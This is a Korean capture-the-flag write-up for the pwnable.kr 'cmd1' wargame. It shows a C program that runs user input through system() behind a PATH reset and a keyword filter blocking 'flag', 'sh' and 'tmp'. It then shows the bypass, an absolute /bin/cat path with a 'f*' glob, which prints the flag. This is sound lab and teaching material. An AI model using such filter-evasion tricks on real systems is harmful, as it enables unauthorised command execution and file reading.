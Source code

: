 # cmd1 - 1 pt

```text
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```

## cmd1.c

```c
cmd1@ubuntu:~$ ls
cmd1  cmd1.c  flag
cmd1@ubuntu:~$ cat cmd1.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```

`argv[1]`으로 입력한 모든 명령을 `system` 함수로 실행을 한다. 여기서 웃긴점:

1. `PATH`를 `/thankyouverymuch`로 바꿔서 쉘 BUILT-IN 함수 외엔 사용할 수 있는 명령어가 없다.
2. `filter`함수로 `sh`, `flag`, `tmp`가 들어간 명령어를 못 쓰게 만든다.

하하, 이건 어쩌라는 건지 원... 뭘 이용할 수 있을까?

## cmd1의 PATH 환경변수를 보자

```c
cmd1@ubuntu:~$ ./cmd1 export
export HOME='/home/cmd1'
export LANG='en_US.UTF-8'
export LANGUAGE='en_US:'
export LOGNAME='cmd1'
export MAIL='/var/mail/cmd1'
export PATH='/fuckyouverymuch'
export PWD='/home/cmd1'
export SHELL='/bin/bash'
export SHLVL='1'
export SSH_CLIENT='14.50.190.132 14680 22'
export SSH_CONNECTION='14.50.190.132 14680 192.168.1.186 22'
export SSH_TTY='/dev/pts/28'
export TERM='xterm-256color'
export USER='cmd1'
export XDG_RUNTIME_DIR='/run/user/1025'
export XDG_SESSION_ID='32665'
export _='./cmd1'
cmd1@ubuntu:~$
```

실행 도중엔 `PATH` 환경변수를 `/fuckyouverymuch`로 바꿔서 실행한다. `PATH` 환경변수는 명령어를 찾을때 참고하는 디렉토리 절대경로를 담고 있다. `PATH`를 `/fuckyouverymuch`로 바꾼다는 것은 명령어를 쓰지 못하도록 하는 것이다...?

## 멍청이 바보 하 진짜 멍청이

`PATH` 환경변수를 쓸 수 없다는 말은 아예 프로그램은 못 쓰는게 아니라 그냥 편하게 참고를 못한다는 뜻이다. 그래서 그냥 명령어 절대경로를 명시해 `/bin/cat`으로 파일을 읽으면 된다ㅋ

```c
cmd1@ubuntu:~$ which cat
/bin/cat
cmd1@ubuntu:~$ ls
cmd1  cmd1.c  flag
cmd1@ubuntu:~$ ./cmd1 "/bin/cat f*"
mommy now I get what PATH environment is for :)
```